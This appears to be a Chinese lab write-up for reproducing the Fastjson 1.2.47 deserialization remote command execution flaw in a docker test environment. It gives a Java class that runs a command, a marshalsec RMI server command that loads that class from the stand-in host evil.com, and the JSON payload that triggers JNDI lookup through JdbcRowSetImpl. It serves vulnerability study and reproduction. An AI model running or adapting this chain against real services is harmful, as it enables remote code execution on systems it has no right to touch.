

# Fastjson 1.2.47 远程命令执行漏洞

Fastjson是阿里巴巴公司开源的一款json解析器，其性能优越，被广泛应用于各大厂商的Java项目中。fastjson于1.2.24版本后增加了反序列化白名单，而在1.2.48以前的版本中，攻击者可以利用特殊构造的json字符串绕过白名单检测，成功执行任意命令。

参考链接：

- https://cert.360.cn/warning/detail?id=7240aeab581c6dc2c9c5350756079955
- https://www.freebuf.com/vuls/208339.html

## 漏洞环境

执行如下命令启动一个spring web项目，其中使用fastjson作为默认json解析器：

```shell
docker-compose up -d
```

环境启动后，访问`http://your-ip:8090`即可看到一个json对象被返回，我们将content-type修改为`application/json`后可向其POST新的JSON对象，后端会利用fastjson进行解析。

## 漏洞复现

目标环境是`openjdk:8u102`，这个版本没有`com.sun.jndi.rmi.object.trustURLCodebase`的限制，我们可以简单利用RMI进行命令执行。

首先编译并上传命令执行代码，如`http://evil.com/TouchFile.class`：

```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

然后我们借助[marshalsec](https://github.com/mbechler/marshalsec)项目，启动一个RMI服务器，监听9999端口，并制定加载远程类`TouchFile.class`：

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com/#TouchFile" 9999
```

向靶场服务器发送Payload：

```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:9999/Exploit",
        "autoCommit":true
    }
}
```



可见，命令`touch /tmp/success`已成功执行：


更多利用方法请参考JNDI注入相关知识。
